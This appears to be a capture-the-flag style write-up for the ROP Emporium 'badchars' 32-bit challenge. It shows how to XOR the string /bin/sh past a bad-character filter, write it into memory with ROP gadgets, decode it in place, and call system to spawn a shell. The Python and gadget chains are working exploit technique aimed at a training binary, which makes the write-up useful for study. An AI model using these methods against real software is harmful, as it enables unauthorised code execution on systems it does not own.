 # badchars - 32bit

When running the program the set of bad characters is present to us:

```
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> 
```

So, in this case we cannot just place `/bin/sh` into memory and call it as the characters will be muddled.

Note: `ropper` has a mode to return gadgets that do not contain the specified bad characters:

```
ropper -f badchars32 -b "626963666e73202f"
```

Therefore, we need to prepare the string to pass the check. Then we need to alter the string while it is present in memory.

We first need to XOR the string a find a single value that gives us a string that contains no badchars

The function below achieves this purpose:

```python
def find_valid_string_with_XOR(originalString):

    FOUND_SOLUTION = False

    xor_value = 0

    while not FOUND_SOLUTION:
        xor_value += 1
        newString = ""

        for o in originalString:
            newChar = chr(ord(o) ^ xor_value)
            
            if newChar in badchars:
                break

            newString += newChar

        else:
            FOUND_SOLUTION = True
        

    return newString, xor_value
```

For example the function will translate `/bin/sh` to `-``kl-qj` with an XOR value of `0x02`.

We then write the XORed string into memory in exactly the same way as `write4`.

The gadgets chain:

```
# C1
pop esi 
pop edi 
ret 
<STRING>
<.DATA_ADDRESS>
<C2_ADDRESS>

# C2
mov dword ptr [edi], esi
ret
```

Will write four bytes of a string into memory, this need to repeated twice for each 4 byte chunk of the string.

Now, we need to alter the data on the stack to recreate the `/bin/sh\x00` string.

The perfect gadget is present in the binary:

```
xor byte ptr [ebx], cl ; ret
```

This will xor the first byte of the data present in `ebx`. This means we can increment the value in `ebx` and gradually XOR each character.

This combined with the `pop ebx ; pop ecx ; ret` gadget lets us place values into the correct areas.

The code below achieves this functionality:

```python
data_addr = 0x804a088 # .data
for o in command:
    payload += pop_bx_cx        # pop ebx ; pop ecx ; ret
    payload += p32(data_addr)   # Address of .data 
    payload += p32(xor_value)   # 0x02 (From the XOR code above)
    payload += xor_gad          # xor byte ptr [ebx], cl ; ret)

    data_addr += 1
```

This gadget chain will turn out string back to `/bin/sh`!

This exploit is finished with a tasty call to system to spawn a shell.